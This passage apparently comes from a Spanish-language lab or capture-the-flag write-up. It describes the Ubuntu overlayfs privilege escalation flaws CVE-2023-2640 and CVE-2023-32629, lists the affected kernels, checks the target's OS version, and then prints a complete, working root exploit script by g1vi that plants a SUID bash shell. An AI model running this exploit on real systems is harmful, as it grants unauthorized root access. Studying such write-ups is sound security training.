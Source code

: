 #### [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629#cve-2023-32629)

[https://www.cvedetails.com/cve/CVE-2023-32629/](https://www.cvedetails.com/cve/CVE-2023-32629/)

>Local privilege escalation vulnerability in Ubuntu Kernels overlayfs ovl_copy_up_meta_inode_data skip permission checks when calling ovl_do_setxattr on Ubuntu kernels.

### [Vulnerable kernels](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629#vulnerable-kernels)

|Kernel version|Ubuntu release|
|---|---|
|6.2.0|Ubuntu 23.04 (Lunar Lobster) / Ubuntu 22.04 LTS (Jammy Jellyfish)|
|5.19.0|Ubuntu 22.10 (Kinetic Kudu) / Ubuntu 22.04 LTS (Jammy Jellyfish)|
|5.4.0|Ubuntu 22.04 LTS (Local Fossa) / Ubuntu 18.04 LTS (Bionic Beaver)|

Todo esto gracias al GitHub de [g1vi](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629). 

Y al revisar las versiones exactas del host, se puede ver lo siguiente:

```bash
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
```
{: file="/etc/os-release"}

Por lo que se puede hacer uso del **exploit**, en este caso se copia el script dentro de la máquina para que no sea necesario transferir el archivo. 



```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
{: .nolineno file="/tmp/exploit.sh"}
